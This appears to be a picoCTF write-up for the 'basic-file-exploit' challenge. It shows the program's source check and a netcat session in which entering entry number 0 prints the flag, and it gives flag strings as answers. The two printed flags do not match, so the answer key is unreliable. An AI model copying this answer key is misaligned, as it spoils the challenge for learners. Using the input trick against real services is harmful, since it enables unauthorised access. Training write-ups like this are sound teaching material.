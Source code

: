 # **Challenge:** basic-file-exploit 


### **Category:** Binary Exploitation
### **Point Value:** 100
### **Author:** Will Hong
<br>

## **Description:**
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! Connect to the program with
```Shell
netcat: $ nc saturn.picoctf.net 55197
```
 The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/490/program-redacted.c).[^1][local](./program-redacted.c)


# **Write-Up:**
Lets start by downloading the source code using:  
```Shell
wget https://artifacts.picoctf.net/c/490/program-redacted.c
```

Starting with the main() function we're asked to make a choice:  
```c
  puts("Hi, welcome to my echo chamber!");
  puts("Type '1' to enter a phrase into our database");
  puts("Type '2' to echo a phrase in our database");
  puts("Type '3' to exit the program");
```

Then looking through the rest source we find this in dataread()
```c
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }
```
Which tells us that the [FLAG](./flag) resides at phrase 0 in the 'database.'  So connecing to the program using netcat, we select the first menu option and enter our data and its length:
```bash
└─$ nc saturn.picoctf.net 55197
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
a
a
Please enter the length of your data:
1
1
Your entry number is: 1
```
Now when prompted if we wish to do something else we select option 2 and for our data entry number we select 0, which should echo out the [FLAG](./flag):
```bash
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_25D6CDDB}
```
  
# **FLAG:** 
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_D870266B}

[^1]: Included links to the source code may be out of date as they were what I recorded during the competition, and may be different now.